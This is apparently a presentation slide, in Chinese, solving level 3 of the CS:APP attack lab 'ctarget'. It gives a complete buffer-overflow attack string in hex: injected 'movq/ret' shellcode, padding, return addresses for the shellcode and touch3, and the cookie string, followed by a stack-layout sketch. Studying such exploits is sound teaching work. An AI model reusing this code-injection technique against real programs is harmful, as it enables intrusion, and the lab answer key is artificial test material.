

# 任务3：ctarget level3
攻击字符串：
/* 'movq $0x5561dcb0,%rdi; ret' */
     48 c7 c7 b0 dc 61 55 c3
 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
/* Address of shellcode */
78 dc 61 55 00 00 00 00
/* Address of touch3 */
4c 1f 40 00 00 00 00 00
/* String representation of 0x59b997fa */
35 39 62 39 39 37 66 61

rsp的值
…
buf[39-32]
buf[31-24]
…
c3 55 61 dc 88 c7 c7 48
0x5561dc78
61 66 37 39 39 62 39 35
0x5561dcb0
Touch3地址
 -10-